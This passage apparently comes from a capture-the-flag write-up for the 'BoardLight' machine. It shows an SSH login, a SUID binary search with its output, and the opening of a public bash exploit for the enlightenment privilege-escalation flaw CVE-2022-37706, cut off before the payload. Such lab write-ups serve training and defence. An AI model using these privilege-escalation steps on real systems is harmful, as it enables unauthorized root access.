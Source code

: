 ```bash
$ ssh larissa@10.10.11.11
```

- Okay, we are in. The flag is in `/home/larissa/user.txt`

```bash
larissa@boardlight:~$ cat user.txt
<USER-FLAG>
```

---

## PRIVILEGE ESCALATION

- To obtain root flag we need to escalate privileges
- Larissa does not have `sudo` privileges, hence we cannot run classical `sudo -l`
- However, we can always trying to find some files with the `suid` permission set

```bash
$ find / -type f -perm 4000 2> /dev/null

/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/su
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper
```

- Of our interest is `enlightenment`
- It is a Window Manager vulnerable to LPE (Local Privile Escalation) ![CVE-2022-37706](https://nvd.nist.gov/vuln/detail/CVE-2022-37706)
- We can easily find the bash code using `searchsploit`
- Here is the bash code to obtain a root shell

```bash
#!/usr/bin/bash
# Idea by MaherAzzouz
# Development by nu11secur1ty

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

# The actual problem
file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
        echo "[-] Couldn't find the vulnerable SUID file..."
        echo "[*] Enlightenment should be installed on your system."
        exit 1
fi
```